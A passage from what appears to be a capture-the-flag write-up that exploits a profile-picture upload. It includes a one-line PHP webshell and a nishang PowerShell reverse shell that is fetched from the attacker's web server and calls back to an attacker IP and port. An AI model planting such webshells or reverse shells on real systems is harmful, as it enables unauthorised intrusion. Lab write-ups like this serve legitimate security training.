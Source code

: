## File upload

Logged in to the application we can change the profile picture of the user to a simple php webshell.

[![pfp](/img/love/pfp.png)](/img/love/pfp.png)

`grem.php`
```php
<?php system($_REQUEST['cmd']); ?>
```

There is a cleanup script going, so we intercept the upload request in burp and send it to repeater for easy access later on in case our reverse shell dies.

We can now open the image location of the profile picture in a new tab confirm the rce and also send the request to repeater.

[![rce_poc](/img/love/rce_poc.png)](/img/love/rce_poc.png)

For our reverseshell we use the nishang `Invoke-PowerShellTcp.ps1` add the line `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.27 -Port 7575` 
to the bottom and host it on a python webserver. Then we invoke it with burp, get a hit on our webserver and a connection back as `phoebe` soon after.

[![burp_revshell](/img/love/burp_revshell.png)](/img/love/burp_revshell.png)
